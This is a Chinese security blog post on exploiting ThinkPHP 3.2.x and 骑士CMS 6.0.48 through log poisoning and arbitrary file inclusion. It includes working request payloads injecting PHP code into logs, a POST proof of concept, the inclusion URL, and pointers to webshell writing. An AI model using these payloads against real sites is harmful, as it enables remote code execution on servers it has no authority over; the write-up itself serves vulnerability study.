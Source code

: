 ```yaml
---
layout: post
title: "【网络安全】ThinkPHP 3.2.X RCE学习"
subtitle: "骑士CMS文件包含漏洞"
date: 2024-08-08
author: "qtunneling"
header-img: "img/bg-touhou-1.jpg"
tags: []
---
```


## 0x01 ThinkPHP 3.2.X RCE

攻防遇到了很多的 ThinkPHP 3.2.x，本以为低版本TP有 RCE 可以打，但读了网上的文章后才发现并不是TP本身的问题，而是 assign 方法的第一个变量可控会造成任意文件包含，从而导致 RCE（换言之，一般是使用TP框架的程序员自己写控制器时写出了洞）。ThinkPHP 在`/Application/Runtime/Logs/Home/年份_月份_日期.log`下会记录 model 错误，构造特定的请求写入日志文件，然后用任意文件包含引入日志文件即可造成 RCE. 

在 debug 模式下，日志文件会直接泄露出来，如果没开 debug 模式也可尝试盲打。（注意 Application 可能修改为其他名称，比如data，可以尝试 fuzz）

```
若开启debug模式日志会到：\Application\Runtime\Logs\Home\下
若未开启debug模式日志会到：\Application\Runtime\Logs\Common\下
```

用 Burp 写入`/index.php?m=--><?=phpinfo();?>`（不要直接用浏览器写入）

日志如下：

![](../img/2024-08-08-thinkphp32x-rce/1.png)

自行搭建靶场测试请参考：

- [ThinkPHP3.2.X通用漏洞复现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12773)
- [炒冷饭之ThinkPHP3.2.X RCE漏洞分析 - sevck - 博客园 (cnblogs.com)](https://www.cnblogs.com/sevck/p/15012267.html)
- [【漏洞通报】ThinkPHP3.2.x RCE漏洞通报-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1855060)

## 0x02 骑士CMS RCE

骑士CMS 6.0.48 存在一处任意文件包含漏洞，与 ThinkPHP 3.2.X 通用RCE有些相似。

漏洞在于 assign_resume_tpl 方法：

```php
public function assign_resume_tpl($variable,$tpl){
        foreach ($variable as $key => $value) {
            $this->assign($key,$value);
        }
        return $this->fetch($tpl);
}
```

fetch 方法在`$tpl`不存在时会将 payload 写入 log：

```php
// 模板文件不存在直接返回
if(!is_file($templateFile)) E(L('_TEMPLATE_NOT_EXIST_').':'.$templateFile);
```

fetch 方法还会调用`Hook:listen('view_parse', $params)`将模板文件解析与编译生成缓存文件`xxx.php`，然后调用Load加载这个编译好的缓存文件。

详细攻击链分析：

- [骑士 CMS 远程命令执行分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8520)

- [骑士cms从任意文件包含到远程代码执行漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8596)

`$tpl`变量可控，因此可以先通过 assign_resume_tpl 的 fetch 方法将 payload 写入log，再通过 assign_resume_tpl 方法包含存在 payload 的 log 文件。

也可以一步到位，直接通过 assign_resume_tpl 方法包含木马文件。根据上面两篇文章，官方的补丁包只是阻止 payload 写入日志，并没有阻止任意文件包含。（过去这么久应该修复了吧？）

POC:

```
POST /index.php?m=home&a=assign_resume_tpl HTTP/1.1
Host:

variable=1&tpl=<?php phpinfo(); ob_flush();?>
```

访问`http://example.com/index.php?m=home&a=assign_resume_tpl&variable=1&tpl=data/Runtime/Logs/Home/年份_月份_日期.log`即可看到回显。注意由于 fetch 中包含`ob_get_clean`，所以必须要包含`ob_flush();`。

如果POC出现404，那么大概率是被修复了。

写马参考：

- [74cms 6.0.20版本文件包含漏洞复现_74cms v6 源码-CSDN博客](https://blog.csdn.net/csdnmmd/article/details/117689687)

# 
